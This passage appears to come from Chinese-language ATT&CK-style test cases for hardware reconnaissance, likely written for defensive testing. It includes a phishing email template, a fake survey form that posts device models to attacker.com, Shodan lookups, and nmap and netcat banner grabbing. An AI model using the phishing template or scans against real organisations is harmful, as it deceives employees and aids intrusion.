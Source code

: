 #### 测试案例 3：钓鱼收集硬件信息
**关联技术**：T1592.001（硬件信息收集）、T1566（钓鱼）  
**说明**：  
- 攻击者通过伪造的邮件或调查问卷，诱导员工泄露硬件型号或物联网设备信息。  
**示例操作**：
- 发送伪造邮件：  
  ```
  Subject: 设备支持调查
  Body: 请提供您当前使用的摄像头型号、服务器型号或其他物联网设备信息：http://fake-survey.com
  ```
- 伪造调查页面（HTML 伪代码）：  
  ```html
  <form action="http://attacker.com/collect" method="POST">
      摄像头型号: <input type="text" name="camera">
      服务器型号: <input type="text" name="server">
      <input type="submit" value="提交">
  </form>
  ```
**输出示例**（攻击者服务器日志）：
```
POST /collect HTTP/1.1
camera=Hikvision DS-2CD2143G0-I&server=Dell PowerEdge R740
```
**说明**：  
- 钓鱼攻击可直接收集硬件信息。  
- 关联 T1592.001：通过钓鱼获取硬件信息。

#### 测试案例 4：查询公开技术数据库
**关联技术**：T1592.001（硬件信息收集）  
**说明**：  
- 攻击者通过公开技术数据库（如 Shodan、Censys）或供应商网站查询目标组织的硬件信息，如摄像头或物联网设备型号。  
**示例操作**：
```bash
# 在 Shodan 查询目标 IP 的硬件信息
shodan host 192.168.1.10
# 或访问供应商网站（如 Hikvision、Dell）搜索设备信息
```
**输出示例**：
```
IP: 192.168.1.10
Device: Hikvision DS-2CD2143G0-I Camera
```
**说明**：  
- 公开数据库或供应商网站可能暴露硬件型号。  
- 关联 T1592.001：通过技术数据库获取硬件信息。

#### 测试案例 5：通过主动扫描识别硬件信息
**关联技术**：T1592.001（硬件信息收集）、T1046（网络服务扫描）  
**说明**：  
- 攻击者通过端口扫描或 Banner 抓取识别目标主机上运行的物联网设备或硬件信息。  
**示例操作**：
```bash
# 使用 Nmap 扫描目标主机
nmap -sV -p 80,554,37777 192.168.1.10
# 或使用 netcat 抓取 Banner
nc 192.168.1.10 80
HEAD / HTTP/1.0
```
**输出示例**：
```
Nmap scan report for 192.168.1.10
Port 554/tcp open  rtsp    Hikvision DS-2CD2143G0-I
Port 37777/tcp open  dahua-dvr  Dahua DVR
```
**说明**：  
- `nmap -sV` 可识别物联网设备（如摄像头、DVR）的型号，Banner 抓取可暴露硬件信息。  